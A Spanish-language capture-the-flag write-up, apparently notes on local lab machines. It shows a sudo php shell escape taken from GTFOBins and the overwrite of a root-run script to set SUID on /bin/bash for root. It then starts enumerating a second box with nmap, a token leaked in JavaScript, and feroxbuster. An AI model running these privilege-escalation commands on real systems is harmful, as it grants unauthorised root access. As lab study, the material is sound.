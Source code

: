 Haciendo sudo -l vemos que podemos ejecutar php como si fuera "chocolate". 

![](Imágenes/Pasted%20image%2020240813165936.png)

Buscando en gtfobins, encuentro lo siguiente: https://gtfobins.github.io/gtfobins/php/#sudo

```
CMD="/bin/sh"
sudo -u chocolate php -r "system('$CMD');"
```

![](Imágenes/Pasted%20image%2020240813170315.png)

Haciendo ps -aux, vemos que el root está ejecutando un archivo, que resulta pertenecer a `chocolate`. Por tanto, podemos escribir en él, haciendo por ejemplo que bash tenga el #SUID activado. De esta forma, nos haremos root ejecutando /bin/bash -p 
![](Imágenes/Pasted%20image%2020240813170613.png)

![](Imágenes/Pasted%20image%2020240813170916.png)

```
echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
```

# Consolelog
Fecha: 13/08/2024

Empiezo haciendo nmap, encontrando ssh en el puerto 5000, un framework de Nodejs en el 3000 y un apache en el 80, ninguno de ellos vulnerables por searchsploit.

```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

Visito la página y no veo nada, solo un botón que, aparentemente, no funciona. Inspeccionando la página, veo un script, `authentication.js`, en el que dice: 
```
function autenticate() {
    console.log("Para opciones de depuracion, el token de /recurso/ es tokentraviesito");
}
```

Accedo a http://172.17.0.2/recurso/?token=tokentraviesito, y veo lo siguiente:

![](Imágenes/Pasted%20image%2020240813172916.png)

No sé qué hacer con esto, por lo que paso a hacer fuzzing de la página (con -d 2 evito demasiados niveles de recursión, ya que dentro de backend hay muchos archivos): 

```
feroxbuster -u http://172.17.0.2 -x php -x html -x txt -x js -w /usr/share/wordlists/directory-list-2.3-medium.txt -o fuzzing --threads 300 -d 2 
```

![](Imágenes/Pasted%20image%2020240813173703.png)
